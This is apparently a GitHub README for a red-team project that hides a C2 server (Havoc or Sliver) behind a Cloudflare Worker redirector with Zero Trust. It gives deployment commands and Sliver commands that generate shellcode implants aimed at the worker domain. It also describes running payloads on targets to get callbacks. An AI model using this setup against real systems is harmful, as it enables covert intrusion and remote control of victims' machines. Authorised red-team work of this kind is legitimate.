

# Cloudflare-Redirector

Inspired by [Alfie Champion](https://twitter.com/ajpc500) [article](https://ajpc500.github.io/c2/Using-CloudFlare-Workers-as-Redirectors/), I decided to publish my own version of a Cloudflare Redirector adding the Zero Trust aspect.



Note: The idea or "workflow" can be scaled and can also integrate more feature (Ex: Cloudflare WAF, Gateway workers concept, multiple redirectors for multiples C2 frameworks, integrate with KV store, R2 buckets, Queues, etc.). I may publish the more complete version in the future.

## Things you will need

- A running C2 framework. I am using [Havoc](https://github.com/HavocFramework/Havoc) for this demo.
- Cloudflare "regular" account. (free)
  - Having a least one domain managed in your Cloudflare account.
- Initiate your Cloudflare Zero Trust account through your Cloudflare "regular" account. (will ask for a credit card but free for the first 50 users). See screenshot `1.jpg` in assets folder.
- Install Cloudflare tunnel ([cloudflared](https://developers.cloudflare.com/cloudflare-one/connections/connect-networks/downloads/)) in your C2 server.
- [wrangler cli](https://developers.cloudflare.com/workers/wrangler/). We will use `wrangler cli` to deploy and setup secrets but you can also do it use github actions for example.

## In this example

- C2 Listener hostname: `https://listener.demo.com/`
- Worker endpoint: `https://worker.demo.com/`
- Custom header value: `Awesome-Header`
- see the file `demo-profile.yaotl` for the profile used in this demo.

Note: this a simple demo, you should not use the same domain between worker and ZT.

### Secrets to setup

- SERVICE_CF_ID (Cloudflare Service Auth ID to authenticate to Cloudflare Zero Trust) - see screenshot `3.jpg` in assets folder.
- SERVICE_CF_SECRET (Cloudflare Service Auth Secret to authenticate to Cloudflare Zero Trust) - see screenshot `3.jpg` in assets folder.
- CUSTOM_HEADER (custom header value use in workers)
- WORKER_ENDPOINT (worker endpoint)
- LISTEN_ENDPOINT (C2 listener hostname - hostname bind with cloudflared tunnel) - see screenshot `6.jpg` in assets folder.

## Overview Installation

- Clone/fork this repo.
- Modify the file `demo-profile.yaotl` to match your setup and use it on your C2 server.
- Modify worker config file - `./workers/demo-redirector-c2/wrangler.toml`.
- [Optional] Modify worker code `./workers/demo-redirector-c2/src/index.js`.
- Setup secrets.
- Deploy the worker.

### Install and Deploy

```bash
# clone the repo
git clone ...
cd Cloudflare-Redirector
# modify demo-profile.yaotl to match your setup
# modify wrangler.toml to match your setup
#
cd workers/demo-redirector-c2
# when using "wrangler secret put <KEY>", you will be prompt to enter the secret value
wrangler secret put SERVICE_CF_ID
wrangler secret put SERVICE_CF_SECRET
wrangler secret put CUSTOM_HEADER
wrangler secret put WORKER_ENDPOINT
wrangler secret put LISTEN_ENDPOINT
#
# modify src/index.js [optional]
#
# deploy
wrangler deploy
```

## After deployment

- Start C2 server with your modified profile.

```bash
# ex:
./havoc server --profile profiles/demo-profile.yaotl -v
```

- Generate new payload to execute on a target and execute.
- Receive callback.
- You can see the logs of your worker by selecting the worker in the Cloudflare dashboard and click on the "Logs" tab. After click on "Begin log streams". See screenshot `13.jpg` in assets folder.

## Not sure about the Zero Trust part ?

Follow the screenshots in assets folder, but in summary:

1. Access zero trust section

2. Create new service-auth token

3. Create new tunnel (and setting up on your C2 server)

4. Create application (self-hosted) rules to protect your listener (in the screenshots I'm using github authentication, but you can use the default "one-time pin". BTW, we only care about the Service-Auth policy since only our redirector need to visit listener url).

## Sliver

```bash
# modify ~/.sliver/configs/http-c2.json (add header)

profiles new --skip-symbols -b https://127.0.0.1:443 --arch amd64 profileCF
https -L 127.0.0.1 -l 443
generate --http <worker.demo.com> --skip-symbols --disable-sgn --format shellcode --arch amd64
```

## Todo

- probably need a better README file
- more stuff?

## Credits

- [Alfie Champion](https://twitter.com/ajpc500) for the inspiration and article.
- [C5pider](https://twitter.com/C5pider) for Havoc.
- [Yack](https://yack.one).
